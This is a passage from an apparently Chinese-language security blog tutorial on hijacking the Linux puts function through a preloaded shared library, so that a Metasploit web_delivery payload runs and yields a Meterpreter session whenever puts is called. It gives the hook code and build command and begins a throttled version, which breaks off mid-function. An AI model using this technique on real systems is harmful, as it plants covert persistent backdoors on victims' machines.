     #include <stdio.h>
    #include <unistd.h>
    #include <dlfcn.h>
    #include <stdlib.h>
    
    int puts(const char *message) {
      int (*new_puts)(const char *message);
      int result;
      new_puts = dlsym(RTLD_NEXT, "puts");
    // do some thing …
    // 这里是puts调用之前
      result = new_puts(message);
      // 这里是puts调用之后
      return result;
    }
    
        

**编译命令：**

    gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE
    
        

    -fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
    -shared 生成共享库格式
    -ldl 显示方式加载动态库，可能会调用dlopen、dlsym、dlclose、dlerror
    -D_GNU_SOURCE 以GNU规范标准编译
    
        

编写好劫持puts函数的代码后，需要先生成一个Metasploit木马，使得在系统调用puts函数之前，都执行一次木马。

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006202912772.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
`exploit/multi/script/web_delivery` 模块能够直接生成一条Python命令，这能够非常方便的获得Meterpreter。 接下来，将劫持puts函数的代码做一些小改动，在执行puts之前，调用系统函数system来运行python命令，这样每次调用puts都可以获得Meterpreter会话。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006202930203.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
正常执行的过程：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006202945433.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
执行whoami后，由于底层会调用puts函数，因此也会执行python命令，Metasploit不出意外的获得了Meterpreter：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100620295581.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
接着，为了防止在短时间内获得多个重复的会话，因此需要优化一下代码，例如以某个文件行数和调用puts函数的次数进行取余，就能够达到执行多少次puts函数获得一次Meterpreter。 优化代码如下：

    #include <unistd.h>
    #include <dlfcn.h>
    #include <stdlib.h>
    #include <sys/stat.h>
    #define BUFFER_SIZE 100
    #define COMMAND_NUM 5
    int check_file_line(char * filename){
    	int file_line = 0;
    	char buffer[BUFFER_SIZE];
    	FILE *fp = NULL;
    	fp = fopen(filename,"r");
    	if(fp==NULL){
    		return file_line;
    	}
    